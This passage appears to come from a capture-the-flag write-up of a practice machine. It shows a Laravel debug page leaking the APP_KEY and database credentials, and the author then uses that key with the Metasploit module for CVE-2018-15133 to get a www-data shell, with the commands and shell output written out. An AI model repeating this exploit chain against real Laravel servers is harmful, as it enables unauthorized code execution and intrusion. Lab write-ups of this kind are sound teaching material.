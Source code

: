       UnexpectedValueException
* reading thru it i found some intersting data

      APP_NAME 	"Laravel"
      APP_KEY 	"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="

      DB_CONNECTION 	"mysql"
      DB_HOST 	"127.0.0.1"
      DB_PORT 	"3306"
      DB_DATABASE 	"homestead"
      DB_USERNAME 	"homestead"
      DB_PASSWORD 	"secret"

* found application name and mysql config but db is in local so not useful for now .

### Laravel

**description :**  [Laravel](https://laravel.com/) is a free, [open-source](https://github.com/laravel/laravel) PHP web application framework which is accessible, powerful, and provides tools required for large, robust applications.

**vulnerability :** found RCE [CVE-2018-15133](https://www.cvedetails.com/cve/CVE-2018-15133/) and msf [module](https://www.exploit-db.com/exploits/47129) for that CVE .

*I don't find which `Laravel` version running on the server but i give it a go and use msf to check if it works and it worked and give www-data shell*

* [Exploit PoC on github@kozmic](https://github.com/kozmic/laravel-poc-CVE-2018-15133)

# User Exploit
*getting user is a long road from user `www-data>>cry0l1t3>>mrb3n` to get root privesc*
## www-data shell

**what is exploit :** Laravel Framework through 5.5.40 and 5.6.x through 5.6.29, remote code execution might occur as a result of an unserialize call on a potentially untrusted X-XSRF-TOKEN value. This involves the decrypt method in Illuminate/Encryption/Encrypter.php and PendingBroadcast in gadgetchains/Laravel/RCE/3/chain.php in phpggc. The attacker must know the application key, which normally would never occur, but could happen if the attacker previously had privileged access or successfully accomplished a previous attack.

* exploit prerequirement is `APP_KEY` which i already found

### Exploit using MSF

**Exploit Module :** exploit/unix/http/laravel_token_unserialize_exec

```
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS 10.10.10.215
RHOSTS => 10.10.10.215
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
VHOST => dev-staging-01.academy.htb
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set app_key dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
app_key => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
```
```
[*] Command shell session 1 opened
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@academy:/var/www/html/htb-academy-dev-01/public$ whoami;id
whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
